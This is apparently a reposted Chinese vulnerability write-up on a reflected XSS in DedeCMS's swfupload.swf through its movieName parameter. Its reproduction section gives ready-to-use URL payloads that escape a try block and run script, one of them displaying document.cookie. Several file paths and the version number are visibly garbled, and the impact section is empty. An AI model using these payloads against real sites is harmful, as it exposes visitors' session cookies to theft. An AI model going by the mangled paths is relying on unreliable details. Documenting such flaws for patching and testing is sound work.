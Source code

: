 # Dedecms swf文件反射型xss

> 原文：[https://www.zhihuifly.com/t/topic/2862](https://www.zhihuifly.com/t/topic/2862)

# Dedecms swf文件反射型xss

## 一、漏洞简介

DedeCMS 5.img/swfupload/swfupload.swf文件movieName参数没有合适过滤，导致跨站脚本漏洞。

## 二、漏洞影响

## 三、复现过程

### 代码分析

详细说明：

Location: /uploaimg/swfupload/swfupload.swf

漏洞文件为：http://www.dedecms.cimg/swfupload/swfupload.swf

这个flash文件存在漏洞，此文件漏洞可参考:https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/

### 复现

```
/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28%22ian最帅%22%29}}//img/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28document.cookie%29}}//` 
```